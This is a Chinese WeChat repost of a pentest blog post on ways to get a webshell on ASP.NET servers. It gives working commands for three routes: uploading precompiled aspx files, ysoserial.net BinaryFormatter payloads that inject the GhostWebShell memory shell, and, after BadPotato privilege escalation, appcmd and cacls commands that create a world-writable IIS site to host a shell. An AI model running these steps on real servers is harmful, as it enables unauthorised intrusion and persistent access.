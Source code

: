 #  asp.net无法getshell的一些解决办法

Y4er  [ 实战安全研究 ](javascript:void\(0\);)

**实战安全研究** ![]()

微信号 gh_f390fc63c711

功能介绍 我们都是网络安全爱好者，专注于网络安全技术。主要以实战讲述web渗透，代码审计和内网渗透，偶尔poc/exp开发和分享，未来主要关注Java安全。

____

___发表于_

收录于合集

#网络安全 29 个

#渗透测试 70 个

#web安全 70 个

实际环境中经常碰到asp.net的站，这些站点多采用asp.net mvc、asp.net
core或者是预编译等等，而采用这些方案最恶心的点在于无法拿到webshell来进行下一步渗透。

本文主要讲解在asp.net中拿到shell的几种实际案例。

# 预编译加跨目录文件上传

当碰到任意文件上传时，预编译的站点不会执行我们上传的aspx文件，如下图

![]()

预编译配置文件在PrecompiledApp.config，修改updatable为true就能动态编译aspx文件了。

![]()

但是修改这个值需要重启iis，鸡肋。

另一种方法是直接上传编译好的aspx文件

  * 

    
    
    C:\Windows\Microsoft.NET\Framework64\v2.0.50727\aspnet_compiler -v \ -p src target -fixednames

![]()

生成的文件除了`PrecompiledApp.config`全部拖入目标网站

![]()

要求肯定是必须能跨目录，同时文件名可控

# 反序列化

反序列化可以随便执行csharp代码，写文件、执行命令拿回显都行。ysoserial.net有一个GhostWebShell的代码，可以通过ActivitySurrogateSelectorFromFile
gadget来注入内存马

https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs

命令如下

  *   * 

    
    
    .\ysoserial.exe -f binaryformatter -g ActivitySurrogateDisableTypeCheck -c 123 // 4.8以上需要先禁用类型检查.\ysoserial.exe -f binaryformatter -g ActivitySurrogateSelectorFromFile -c "C:\GhostWebShell.cs;System.dll;System.Web.dll"

反序列化的代码

![]()

发送序列化数据

![]()

最后会在 http://localhost:49718/fakepath31337/1.aspx 生成shell

而此时还有一种情况，shell需要进行POST请求，而有的路由不能进行POST，所以有时候就算注册了内存shell，连不上能把你恶心死。

所以有了我最后写的这种方法。

# 基于反序列化的命令执行

最后这种方法建立在可以执行命令的基础上，并且 **需要提权**
，我实际环境是基于反序列化的命令执行，先反序列化写了一个badpotato提权到system，然后通过iis的appcmd命令添加一个网站，在另一个网站放我的shell。

AppCmd可以做的一些事情：

  1. 创建和配置站点、应用程序、应用程序池和虚拟目录

  2. 启动和停止站点，并回收应用程序池

  3. 列出正在运行的工作进程，并检查当前正在执行的请求

  4. 搜索、操作、导出和导入 IIS 和 ASP.NET 配置

先看几个简单的命令

![]()

apps是iis中的应用程序，sites是网站，apppool是应用程序池。

一个app可以有多个site，site通过apppool来进行处理运行。

我们可以添加一个网站，并且设置应用程序池为`.NET v2.0`来使其可以执行aspx脚本程序，最后再写入shell文件即可。命令如下

  *   *   * 

    
    
    C:\windows\sytstem32\inetsrv\APPCMD add site /name:test /bindings:"http/*:81:" /physicalPath:"C:\windows\temp\123"cacls.exe C:\windows\temp\123 /e /t /g everyone:FC:\windows\sytstem32\inetsrv\APPCMD set app "test/" /applicationPool:".NET v2.0"

![]()

此时在`C:\windows\temp\123`写shell就行了。

限制比较大：

  1. appcmd要求高权限

  2. 要求能执行命令

  3. 其他的端口可以被访问到

这个东西可能不太实用，但是确实在一些不出网、需要正向代理或者需要webshell的时候非常有效。

  *   * 

    
    
    作者：Y4er原文连接：https://y4er.com/posts/aspnet-getshell-tips/

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

